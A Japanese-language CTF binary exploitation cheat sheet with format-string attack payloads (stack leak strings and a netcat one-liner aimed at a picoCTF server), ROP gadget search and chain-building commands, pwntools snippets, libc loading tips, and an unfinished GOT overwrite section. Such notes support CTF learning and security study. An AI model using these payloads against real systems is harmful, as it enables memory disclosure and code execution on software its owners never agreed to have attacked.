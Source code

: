### 書式文字攻撃サンプル

``` bash
// スタックの中身を表示
AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x

// 10番目の値を表示
AAAA%10$08x

// netcatで書式文字攻撃
python3 -c 'print("1\n" + "%p." * 50)' | nc mercury.picoctf.net 20195 | tr "." "\n" | while read line; do echo $line | xxd -r -p | strings -n1 | rev; done | tr -d "\n"
```

### ROPサンプル

- ガジェットの探索

``` bash
$ ropper --file app
$ ROPgadget --binary app
```

- pwntoolsのROPをロードする

``` python
elf = ELF("./app")
rop = ROP(elf)
```

- ROPに使える機械語の対応


| x86_64 | pop rdi; | 0x5f |
| :----: | :------: | :--: |
|        |          |      |
|        |          |      |
|        |          |      |


- ROP Chainの構築

``` bash
$ ROPgadget --binary myapp --ropchain
```

参考：[HSCTF 6 - Combo Chain - HackMD](https://hackmd.io/@Xornet/BJh5RikpU)

### GOT Overwriteサンプル

※ 工事中

### glib、リンカのバージョン問題

``` bash
# ライブラリファイルが与えられている場合
LD_LIBRARY_PATH=`pwd` ./chall
LD_PRELOAD=./libc.so.6 ./chall

# patchelfとpwninitをダウンロードしておく
pwninit
```
